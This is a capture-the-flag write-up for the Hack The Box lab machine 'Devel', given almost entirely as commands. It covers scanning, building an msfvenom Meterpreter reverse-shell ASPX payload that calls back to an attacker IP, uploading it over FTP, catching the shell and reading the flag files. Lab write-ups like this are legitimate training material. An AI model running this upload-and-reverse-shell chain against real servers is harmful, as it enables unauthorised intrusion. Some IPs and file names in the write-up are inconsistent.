 # ****Devel****

```bash
rustscan -a 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7abcf759-4f4f-4679-b5c1-7e5ce3671200)

![image](https://github.com/lufffe/Writeups/assets/90646635/09d83a51-bc6b-4b67-a279-44d602d5290d)

```bash
nmap -A -p 21,80 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0c973612-4857-4dbb-b4e6-ad240c9a39b0)

```bash
gobuster dir -u http://10.10.10.5/ -w big.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f9323095-544c-4411-8a8f-5733a4a29053)


![image](https://github.com/lufffe/Writeups/assets/90646635/c0f558b2-38e6-435e-8355-51a3c13e532f)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 -f aspx > shell2.aspx
```

![image](https://github.com/lufffe/Writeups/assets/90646635/264d53f9-d60e-4164-b1a5-42763cedcb04)

```bash
ftp 10.10.10.5
```

```bash
ftp> put shell2.aspx
```
![image](https://github.com/lufffe/Writeups/assets/90646635/667ee882-e64d-4dbd-9239-2471bccf2242)

```bash
msfconsole
```

```bash
search multi/handler
```

```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.16
```

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```bash
msf6 exploit(multi/handler) > exploit
```

[http://10.10.10.5/shell.aspx](http://10.10.10.5/luf3.aspx)

![image](https://github.com/lufffe/Writeups/assets/90646635/846d277d-55d7-4b38-86c9-f0829e8e0bcc)

```bash
meterpreter > shell
```

```bash
c:\windows\system32\inetsrv>systeminfo
```
![image](https://github.com/lufffe/Writeups/assets/90646635/84f6b6be-d526-4da0-b224-5c0d62f53360)

```bash
c:\Users>exit
```

```bash
meterpreter > background
```

![image](https://github.com/lufffe/Writeups/assets/90646635/85d9be9c-bcd3-49dd-a7d0-c6cd66fefe8d)


![image](https://github.com/lufffe/Writeups/assets/90646635/b32f2150-bba3-46ce-8de2-ee5382c4131b)

![image](https://github.com/lufffe/Writeups/assets/90646635/e8919e3e-cdcb-40a1-9cde-921c37124b60)
c:\Users\babis\Desktop>

```bash
type user.txt
```

c:\Users\Administrator\Desktop>
```bash
type root.txt
```

